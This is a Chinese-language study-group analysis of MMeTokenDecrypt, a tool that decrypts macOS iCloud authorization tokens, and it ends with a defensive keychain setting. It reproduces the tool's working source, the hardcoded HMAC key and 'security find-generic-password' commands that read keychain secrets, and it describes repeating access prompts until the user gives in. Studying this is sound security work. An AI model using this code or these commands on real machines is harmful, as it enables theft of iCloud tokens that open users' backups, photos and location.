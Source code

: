 
2017.07 小组实验操作。成员：布兜儿，AloneMonkey，chensh，kiba， mAd mArk

# MMeTokenDecrypt 简介

[MMeTokenDecrypt](https://github.com/manwhoami/MMeTokenDecrypt) 工具提供了一个脚本，用于解码出 macOS/OS X/OSX 上所有的授权 Token。这是利用了系统中授权的钥匙链访问方式的漏洞。

授权 Token 存放在文件存储在 `/Users/*/Library/Application Support/iCloud/Accounts/` 目录下，以你的 iCloud 账号命名的一个**DSID**文件。DSID 是一个数字，是苹果对于每个 iCloud 账号在系统后端中的标识符。

DSID 文件使用一个空的初始化向量和 AES-128 CBC 算法加密。用于解密这个文件的密钥存放在用户的钥匙串(keychain)中，在系统服务 iCloud 下，名字是和 iCloud 账号关联的首选邮箱。

系统解密这个 DSID 文件时，就会从 keyChain 里拿出解密密钥，该密钥格式是 base64，用 base64 解码后，作为 Hmac 算法的消息体输入。Hmac 算法中使用的密钥是硬编码到 MacOS 系统内部中的，是44个字符长的随机字母，为 `t9s\"lx^awe.580Gj%'ld+0LG<#9xa?>vb)-fkwb92[}`。是的，大家的都一样。以上提到的这两个密钥进行了 MD5 加密，得到一把新的钥匙，然后就可以解密 DSID 文件啦！

由于44个字符长的密钥我们已经知道了（在 MMeTokenDecrypt 的源码中就有），所以重点在如何获取 keychain 中的密钥。

# keychain 中的密钥

在钥匙串通过搜索iCloud，你可以看到一个用你iCloud相关账号的邮箱地址命名的条目。

![](./images/keychain_iCloud.jpg)

既然存在钥匙串中，那么我们尝试访问的时候会有下图的警告，一旦点击“允许”，相关的token就能被拿到了。而黑客可以通过代码不停的弹出提示直到你点击“允许”。

![](./images/allow.jpg)

通过命令行的方式也可以进行此操作。输入以下命令：

```Shell
$ security find-generic-password -ga 'Chrome'
```

这里使用到了 security命令，它是非常强大命令行安全工具。参数解释如下：

> **find-generic-password** ，是使用“查找密码”的功能。   
> **-a**，这个参数是匹配类型为“账户”的，用于过滤。   
> **-g**，这个参数是将查询到的密码显示出来。


MMeTokenDecrypt 工具 fork 了一个新的安全的、苹果签名了的进程来解密授权文件，用户对弹出的钥匙链请求对话框并不会感觉危险。攻击者还可以重复的请求访问钥匙链，直到用户同意访问，因为苹果并未限制被拒绝后需要等待的时间。这就允许解码 iCloud 的所有授权 token，这些 token 就能用于访问几乎所有的 iCloud 服务器，包括 iOS 备份，iCloud 联系人，iCloud 照片库，查找我的朋友，定位我的手机等。

# 源码解析

1.导入使用的库

```python
#!/usr/bin/env python
#coding: utf-8

## 导入使用的库
import base64, hashlib, hmac, subprocess, sys, glob, os, binascii
from Foundation import NSData, NSPropertyListSerialization
```

2.在 python 中，我们可以使用 subprocess 库来运行外部程序，将shell 环境下命令运行的结果返回到本程序。如果没有获取到，则打印报错信息，再退出程序。运行 ` security find-generic-password -ws 'iCloud'` 命令，其中 -w 参数是用于仅显示密码项。-s 参数是用于指定类型为 server 的条目，并匹配后面的关键词。

```python
# 获取 iCloud 的密匙
iCloudKey = subprocess.check_output("security find-generic-password -ws 'iCloud' | awk {'print $1'}", shell=True).replace("\n", "")
if iCloudKey == "":
    print "Error getting iCloud Decryption Key"
    sys.exit()
```

得到 iCloud 的密码后，我们将其进行 base64 解码。

```python
# 解码 iCloud 的密匙
msg = base64.b64decode(iCloudKey)
```

3.在 hmac.new 函数中传入这个 key 和上一步拿到的 msg，进行 MD5 hash，并做了16进制的转换。

```python
# 硬编码在系统中的字符串
#Constant key used for hashing Hmac on all versions of MacOS. 
#this is the secret to the decryption!
#/System/Library/PrivateFrameworks/AOSKit.framework/Versions/A/AOSKit yields the following subroutine
#KeychainAccountStorage _generateKeyFromData:
#that uses the below key that calls CCHmac to generate a Hmac that serves as the decryption key
key = "t9s\"lx^awe.580Gj%'ld+0LG<#9xa?>vb)-fkwb92[}"

# 将 iCloud 解码后的数据作为 Hmac 中的消息
# 将硬编码在系统中的字符串作为 Hmac 中的密匙
# md5 算法作为 Hmac 中的哈希算法
#create Hmac with this key and iCloudKey using md5
hashed = hmac.new(key, msg, digestmod=hashlib.md5).digest()
hexedKey = binascii.hexlify(hashed) #turn into hex for openssl subprocess
```

4.这里声明了一个空的 IV，随后遍历了`/Library/Application Support/iCloud/Accounts/*`下的文件，如果有文件则打印出该文件地址

```python
IV = 16 * '0'
mmeTokenFile = glob.glob("%s/Library/Application Support/iCloud/Accounts/*" % os.path.expanduser("~"))
for x in mmeTokenFile:
    try:
        int(x.split("/")[-1]) #if we can cast to int, that means we have the DSID / account file.
        mmeTokenFile = x
    except ValueError:
        continue
if not isinstance(mmeTokenFile, str):
    print "Could not find MMeTokenFile. You can specify the file manually."
    sys.exit()
else:
    print "Decrypting token plist -> [%s]\n" % mmeTokenFile
```

5.接下来我们使用openssl这个命令行工具，将一个空的初始化向量IV和上面已经被16进制转换的密钥，以及我们找到DSID文件，进行128位的AES解密。这一步得到的是一个解密后的二进制文件。

```python
decryptedBinary = subprocess.check_output("openssl enc -d -aes-128-cbc -iv '%s' -K %s < '%s'" % (IV, hexedKey, mmeTokenFile), shell=True)
```

6.我们使用Foundation库里面的类来将它转化为可读取的plist格式。然后遍历这个plist格式对象，将其中的内容打印出来。

```python
binToPlist = NSData.dataWithBytes_length_(decryptedBinary, len(decryptedBinary))

tokenPlist = NSPropertyListSerialization.propertyListWithData_options_format_error_(binToPlist, 0, None, None)[0]

print "Successfully decrypted token plist!\n"
print "%s [%s -> %s]" % (tokenPlist["appleAccountInfo"]["primaryEmail"], tokenPlist["appleAccountInfo"]["fullName"], tokenPlist["appleAccountInfo"]["dsPrsID"])
print tokenPlist["tokens"]
```
# 运行

先获取 [MMeTokenDecrypt.py 文件](https://github.com/manwhoami/MMeTokenDecrypt)，然后在终端中输入:

```
$ python MMeTokenDecrypt.py
```

这个源码文件会获取 iCloud 相关的所有 token，并且罗列出来。

如果你所使用的 python 是通过 homebrew 安装的，可能会碰到以下错误：

```
Traceback (most recent call last):
  File "MMeDecrypt.py", line 2, in <module>
    from Foundation import NSData, NSPropertyListSerialization
ImportError: No module named Foundation

```

你可以尝试指定系统默认的 python 路径来执行 `MMeDecrypt.py`
比如：

```
/usr/bin/python MMeDecrypt.py
```

如果运行正常我们就可以看到相关 token 打印出来了。执行结果：
![](./images/mme-token-decrypt.png)

# 防御

点击keychain 里面那个chrome safe storage的条目，右键选择**显示简介**。

切换到**访问控制**的面板，将**询问钥匙串密码**选中。

![](./images/allow_access.jpg)


这里有一个小bug，keychain里面的更改需要重复两次操作，才能修改成功，当我们勾选了这个选项，切换到*属性*然后再切换回来的时候，发现这个选项并没有被选中，需要再重复操作一遍才行。

然后我们回到命令行，重新输入上面security的命令，这一次我们发现弹窗出来不一样了。这里需要我们输入钥匙串密码。

![](./images/password.jpg)

当我们开启这个选项，就算别人偷偷用你的电脑，没有你的钥匙串密码，也无法得到其中的安全信息。
